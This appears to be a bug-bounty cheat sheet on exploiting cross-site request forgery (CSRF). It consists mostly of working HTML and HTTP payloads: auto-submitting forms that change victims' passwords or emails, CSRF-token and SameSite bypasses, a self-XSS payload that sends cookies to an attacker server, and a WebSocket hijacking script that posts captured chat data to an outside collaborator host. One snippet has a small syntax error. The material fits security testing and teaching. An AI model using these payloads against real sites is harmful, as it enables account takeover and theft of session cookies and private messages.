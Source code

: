 ### CSRF Vulnerability Exploration

For CSRF vulnerabilities, we usually require a webpage hosted on the internet to display its impact. To test this, you can either use Burp-Suite CSRF-poc generator or utilize services like Interactsh to put your code into action.

Start your hunt by following these steps:

1. Look for state-changing requests.
2. Investigate the lack of CSRF protection, such as the absence of a CSRF-token header or no SameSite=Lax/Strict headers.
3. Craft a Proof of Concept (POC).

Here's an example POC:

```html
<form method="POST" action="https://email.example.com/password_change" id="csrf-form">
    <input type="text" name="new_password" value="abc123">
    <input type="submit" value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

### Bypass Techniques

- **Exploit Clickjacking:**

```html
<html>
<head>
    <title>Clickjack test page</title>
</head>
<body>
    <p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
    <iframe src="PAGE_URL" width="500" height="500"></iframe>
</body>
</html>
```

- **Bypass CSRF-Token Protection:**

    - Circumventing strategies:
        - Turn POST request into a GET request.
        - Servers might not validate the source of the CSRF token, so you can use your own accounts.
        - Add the tag `<meta name="referrer" content="never">`.
        - If the server requires a domain name, use "@" in the link.
        - If the server only accepts a domain name, try buying a subdomain.

    - Bypass referrer header check by:
    
    ```html
    <meta name="referrer" content="no-referrer">
    ```

- **Self XSS via CSRF:**

```html
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&csrf_token='' - leave blank
```

This injects XSS in the nickname field and steals the cookies.

- **CSRF POC:**

```html
<form method="POST" action="https://email.example.com/set_password" id="csrf-form">
    <input type="text" name="new_password" value="this_account_is_now_mine">
    <input type='submit' value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

Bypass using XSS as mentioned in the XSS guide in this repository.

- **SameSite: Lax Bypass via Method Override:**

```html
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
```

Via client-side redirect:

```html
document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
```

- **CSRF through Cross-Site WebSocket Hijacking:**

```html
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

- **Bypass Popup and SameSite via Cookie Refresh:**

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

- **Referrer and Referrer-Policy Bypass:**

Referer: `https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net` then add in POC

```html
Referrer-Policy: unsafe-url
```
